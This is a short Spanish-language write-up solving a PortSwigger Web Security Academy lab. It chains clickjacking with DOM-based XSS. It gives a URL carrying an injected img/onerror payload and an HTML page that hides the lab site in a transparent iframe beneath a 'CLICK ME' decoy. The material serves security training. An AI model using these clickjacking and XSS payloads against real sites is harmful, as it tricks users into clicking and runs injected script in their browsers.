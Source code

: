 ```yaml
---
layout: default
title: 4 - Exploiting clickjacking vulnerability to trigger DOM-based XSS
---
```


Esta url carga el XSS en el formulario:
```
https://0af800da04705913807712c400d8007c.web-security-academy.net/feedback?name=%3Cimg%20src=1%20onerror=print()%3E&email=test%40test.com&subject=test&message=test#feedbackResult
```

Ahora solo tendríamos que hacer que pinchara en submit feedback.

Por alguna razón no me iba con el clickbandit así que lo tuve que hacer manual :

```html
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 900px;
		opacity: 0.0001;
		z-index: 1;
	}
	div {
		position:absolute;
		top:815px;
		left:80px;
		z-index: 1;
	}
</style>
<div>CLICK ME</div>
<iframe
src="https://0af800da04705913807712c400d8007c.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
